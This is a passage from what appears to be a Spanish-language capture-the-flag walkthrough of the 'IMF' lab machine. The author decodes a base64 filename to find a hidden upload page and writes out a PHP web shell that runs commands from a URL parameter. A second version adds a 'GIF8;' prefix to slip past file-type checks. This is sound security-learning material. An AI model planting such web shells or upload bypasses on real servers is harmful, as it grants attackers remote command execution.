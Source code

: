 - Data:

    ```
    'dXBsb2Fkcjk0Mi5waHA=' -> uploadr942.php
    ```

Regresamos a la página de la máquina y añadimos ‘uploadr942.php’ a la URL:

![](/assets/images/IMF/Pasted-image-20240605133427.png)

Ahora debemos subir un archivo. Voy a intentar cargar un archivo ‘php’ con el siguiente contenido:

```
<?php
	system($_GET['cmd']);
?>
```

![](/assets/images/IMF/Pasted-image-20240605134245.png)

Vamos a agregar lo siguiente al archivo para verificar si está comprobando los ‘magic numbers’:

```
GIF8;
<?php
	system($_GET['cmd']);
?>
```

Como la respuesta es similar, voy a interceptar la solicitud con 'BurpSuite' para determinar si se está verificando el tipo de contenido.

![](/assets/images/IMF/Pasted-image-20240605135131.png)
